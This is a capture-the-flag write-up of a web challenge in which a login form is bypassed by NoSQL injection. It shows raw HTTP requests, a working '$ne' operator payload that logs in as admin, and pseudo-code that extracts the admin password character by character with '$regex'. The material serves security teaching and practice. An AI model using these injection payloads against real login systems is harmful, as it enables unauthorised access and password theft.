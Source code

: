 # Get the admin password! writeup

The challenge is to get the admin password(the flag), as help we have a valid login credential test:test [link to get the admin password.](http://gap.chal.ctf.westerns.tokyo/login.php)

Let's begin to fire up burp suite and ispect the HTTP traffic.

```
POST /login.php HTTP/1.1
Host: gap.chal.ctf.westerns.tokyo
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://gap.chal.ctf.westerns.tokyo/login.php
Cookie: PHPSESSID=1fkfqnd5bldo58srnviecig305
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

user=test&password=test
```
3 possible parameter to try _injection_ : **PHPSESSID**, **user** and **password**.
And 2 possible approach:

* SQLi
* NoSQLI

#### SQLi
Start `pirate$ sqlmap -r tosqli(The POST Request above) --dbs (Try different level and econding)` and... _Nothing_!

#### NoSQLi

Spend some time in fuzzing hope to raise some error, but nothing... 
Next step: Try password with condition!!!

From the Sequencer:
```
POST /login.php HTTP/1.1
Host: gap.chal.ctf.westerns.tokyo
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://gap.chal.ctf.westerns.tokyo/login.php
Cookie: PHPSESSID=1fkfqnd5bldo58srnviecig305
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

user=admin&password[$ne]=a
```
Explained: Login is successful if password is not equal($ne) to a

The response:

```
You are admin.
The flag is admin password. Admin password format is "TWCTF{...}". 
```

Ok, now run a simple script that guess every single char until '}'(end of flag).

The naif algo(pseudo-code) O(n) and very slow(about 10' on my PC):
```
flag=""

while True:
	for guess in range(!...}): # the charset
		
		# Login if password[$regex]=^+flag+guess
		if request(flag+guess):
			flag += guess
			
			if guess == '}':
				quit()
			else:
				break 
```

My alternative is to use a Binary(Dicotomic)Search to improve the Search O(log(n)) and less than 3'.
The intuition is to use the $lt(lower than) or $gt(greater than) to restrict the window of the char to guess in the charset; look at `nosqli.py` to see the implementation. 










